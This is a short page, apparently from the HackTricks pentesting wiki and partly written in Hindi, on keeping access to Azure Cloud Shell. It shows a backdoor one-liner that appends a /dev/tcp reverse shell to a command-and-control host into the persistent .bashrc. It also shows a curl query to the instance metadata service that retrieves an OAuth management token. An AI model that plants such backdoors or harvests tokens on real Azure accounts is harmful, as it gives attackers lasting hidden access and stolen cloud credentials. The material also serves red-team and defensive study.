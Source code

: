 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell कमांड-लाइन एक्सेस प्रदान करता है ताकि Azure संसाधनों को प्रबंधित किया जा सके, जिसमें स्थायी स्टोरेज और स्वचालित प्रमाणीकरण शामिल है। हमलावर इसका लाभ उठाकर स्थायी होम डायरेक्टरी में बैकडोर रख सकते हैं:

* **Persistent Storage**: Azure Cloud Shell की होम डायरेक्टरी एक Azure फ़ाइल शेयर पर माउंट की गई है और सत्र समाप्त होने के बाद भी बरकरार रहती है।
* **Startup Scripts**: .bashrc जैसे फ़ाइलें प्रत्येक सत्र की शुरुआत में स्वचालित रूप से निष्पादित होती हैं, जिससे क्लाउड शेल शुरू होने पर स्थायी निष्पादन की अनुमति मिलती है।

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
यह बैकडोर उपयोगकर्ता द्वारा क्लाउड शेल समाप्त होने के 5 मिनट बाद भी कमांड निष्पादित कर सकता है।

इसके अतिरिक्त, उदाहरण विवरण और टोकन के लिए Azure की मेटाडेटा सेवा को क्वेरी करें:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
